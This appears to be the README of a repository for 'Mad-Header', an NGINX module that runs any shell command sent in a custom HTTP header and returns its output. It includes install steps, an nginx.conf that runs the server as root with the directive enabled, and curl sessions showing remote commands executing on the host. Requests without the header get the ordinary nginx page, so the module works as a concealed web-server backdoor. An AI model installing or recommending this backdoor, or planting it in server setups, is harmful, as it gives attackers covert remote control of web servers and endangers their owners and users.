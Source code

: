 # Mad-Header
NGINX module to allow for RCE through a specific header. 


## Installation
There is a install script provided in the repo. It will pull down nginx and compile it with the module. Then nginx directory will be setup in `/usr/local/nginx` (nginx default). After this is complete simply open `/usr/local/nginx/conf/nginx/conf` and make sure the `mad_header` directive is added to the location context you wish to have the functionality in. (An Example nginx.conf is show below)

```
user  root;
worker_processes  1;

events {
    worker_connections  1024;
}

http {
    server {
        listen       80;
        server_name  localhost;
        location / {
	    mad_header;
        }
    }
}

```

## Usage
To use the Mad Header simply supply your command as a value to the `Mad-Header` HTTP header. The output (stdout) of your command will be the response body of the command run. If there is no stdout from the command, then the response body will obviously be empty. An example or two is shown below.

```
[root@localhost Mad-Header]# curl localhost --header "Mad-Header: ls -la /tmp"
total 4
drwxrwxrwt.  8 root root 123 Nov 30 11:39 .
dr-xr-xr-x. 17 root root 224 Oct 30 14:11 ..
drwxrwxrwt.  2 root root  19 Nov 29 22:23 .ICE-unix
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .Test-unix
-r--r--r--.  1 root root  11 Nov 29 22:23 .X0-lock
drwxrwxrwt.  2 root root  16 Nov 29 22:23 .X11-unix
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .XIM-unix
drwx------.  2 root root  20 Nov 29 22:24 .esd-0
drwxrwxrwt.  2 root root   6 Oct 30 14:09 .font-unix
[root@localhost Mad-Header]# curl localhost --header "Mad-Header: touch /tmp/hello"
curl: (52) Empty reply from server
[root@localhost Mad-Header]# curl localhost --header "Mad-Header: ls -la /tmp"
total 4
drwxrwxrwt.  8 root   root   136 Nov 30 11:39 .
dr-xr-xr-x. 17 root   root   224 Oct 30 14:11 ..
drwxrwxrwt.  2 root   root    19 Nov 29 22:23 .ICE-unix
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .Test-unix
-r--r--r--.  1 root   root    11 Nov 29 22:23 .X0-lock
drwxrwxrwt.  2 root   root    16 Nov 29 22:23 .X11-unix
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .XIM-unix
drwx------.  2 root   root    20 Nov 29 22:24 .esd-0
drwxrwxrwt.  2 root   root     6 Oct 30 14:09 .font-unix
-rw-rw-rw-.  1 nobody nobody   0 Nov 30 11:39 hello
```
If the header is not supplied (or a different location context is hit) then the server will respond to requests as normal. See below for example.
```
[root@localhost Mad-Header]# curl localhost
<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
<style>
    body {
        width: 35em;
        margin: 0 auto;
        font-family: Tahoma, Verdana, Arial, sans-serif;
    }
</style>
</head>
<body>
<h1>Welcome to nginx!</h1>
<p>If you see this page, the nginx web server is successfully installed and
working. Further configuration is required.</p>

<p>For online documentation and support please refer to
<a href="http://nginx.org/">nginx.org</a>.<br/>
Commercial support is available at
<a href="http://nginx.com/">nginx.com</a>.</p>

<p><em>Thank you for using nginx.</em></p>
</body>
</html>
```
